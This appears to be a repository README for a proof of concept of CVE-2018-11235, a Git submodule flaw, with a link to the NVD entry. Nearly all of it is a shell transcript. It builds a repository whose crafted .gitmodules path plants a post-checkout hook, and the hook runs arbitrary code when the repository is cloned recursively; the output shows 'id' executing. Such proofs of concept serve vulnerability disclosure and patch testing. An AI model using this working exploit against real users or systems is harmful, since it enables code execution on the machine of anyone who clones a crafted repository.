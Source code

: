 # CVE-2018-11235

Consult the [National Vulnerability Database (CVE-2018-11235)] for further information.

## Proof of Concept
```
$ mkdir /tmp/cve-2018-11235
$ cd /tmp/cve-2018-11235
$ git init module
$ cd module
$ > BLANK 
$ git add BLANK
$ git commit -m "This page intentionally left blank."
$ cd ..
$ git init repository
$ cd repository
$ git submodule add ../module module-corrupt
$ git submodule add ../module
$ cp -r .git/modules modules
$ cat > modules/module-corrupt/hooks/post-checkout
#!/bin/sh
id
$ chmod 755 modules/module-corrupt/hooks/post-checkout
$ cat > .gitmodules
[submodule "module"]
	path = module
	url = ../module
[submodule "../../modules/module-corrupt"]
	update = checkout
	path = module-corrupt
	url = ../module
$ git add .gitmodules modules
$ git commit -m "The End"
$ cd ..
$ git clone --recurse-submodules repository clone
Cloning into 'clone'...
done.
Submodule 'module' (/tmp/cve-2018-11235/module) registered for path 'module'
Submodule '../../modules/module-corrupt' (/tmp/cve-2018-11235/module) registered for path 'module-corrupt'
Cloning into 'module'...
done.
Submodule path 'module': checked out 'd621ae80237256c7906679a4fcb3484636263028'
uid=1000(user) gid=1000(user) groups=1000(user),6(disk),7(lp),20(dialout),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)
Submodule path 'module-corrupt': checked out 'd621ae80237256c7906679a4fcb3484636263028'
```

[National Vulnerability Database (CVE-2018-11235)]: https://nvd.nist.gov/vuln/detail/CVE-2018-11235
